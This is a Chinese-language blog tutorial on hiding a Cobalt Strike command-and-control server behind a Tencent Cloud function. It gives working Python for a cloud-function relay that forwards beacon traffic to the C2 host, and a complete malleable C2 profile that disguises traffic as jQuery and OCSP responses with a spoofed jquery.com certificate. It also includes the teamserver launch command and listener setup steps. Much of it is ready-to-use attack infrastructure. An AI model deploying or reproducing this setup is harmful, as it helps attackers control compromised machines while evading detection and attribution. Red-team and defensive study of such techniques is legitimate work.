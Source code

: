 # 利用云函数隐藏C2服务器


隐藏C2服务器的手法有很多，如：
- 域前置
- CDN
- 第三方代理软件（heroku）
- 云函数

## 配置云函数
这里先介绍云函数了，
云函数的创建参考上一篇文章：http://www.xpshuai.cn/2022/06/13/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8FWebshell%E7%9C%9F%E5%AE%9EIP/，

只是代码部分略有不同：
```python
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response


```


点击API服务名：
![20220614141805](http://image.xpshuai.cn/20220614141805.png)
点击编辑：
![20220614141944](http://image.xpshuai.cn/20220614141944.png)

路径修改为`/`，点击下一步：
![20220614142034](http://image.xpshuai.cn/20220614142034.png)

配置如下，点击完成：
![20220614142122](http://image.xpshuai.cn/20220614142122.png)



## 配置cs
### 配置CS的profile文件
```bash
set sample_name "kris_abao";

set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36";

https-certificate 
{

    set keystore "cobaltStrike.store"; //生成的cs证书名
    set password "123456";    //自己设置的密码

    ## Option 3) Cobalt Strike Self-Signed Certificate
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

http-get 
{

    set uri "/api/getit";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager 
{  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/postit";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server 
    {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}


```



### 开启cs teamserver
```bash
./teamserver vpsip password c2.profile
```


**Note:**
上线地址 需要去掉`http://`和`:80`
取`service-miuk9icj-1309081727.bj.apigw.tencentcs.com`
![20220614154332](http://image.xpshuai.cn/20220614154332.png)



### 创建监听
![20220614154545](http://image.xpshuai.cn/20220614154545.png)

成功上线，可以看到外部IP第一栏是不断变化的，也就是隐藏了我们C2服务器
![20220614162832](http://image.xpshuai.cn/20220614162832.png)


附：
删掉测试机器上的恶意exe：
```bash
# 查找进程
tasklist /svc |findstr XXX.exe
# 根据pid杀进程
taskkill /T /F /PID 9718
# 根据进程名杀进程
 taskkill /f /t /im XXX.exe 
```

## 云函数隐藏C2原理
马er -> 腾讯云函数api -> py函数 -> CS服务端

CS马被执行后，流量直接走向腾讯云的api（也就是这一步达成了隐藏C2服务端的目的，腾讯地址，有腾讯的CDN），然后py函数会根据传入的流量作为中间人对CS服务端进行请求，并获取返回结果后返回请求获取的数据信息（py代码的请求内容和CS服务端加载的profile是相对应的，CS服务端根据py函数传入的数据来获取相关信息）


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fc2%E6%9C%8D%E5%8A%A1%E5%99%A8/  


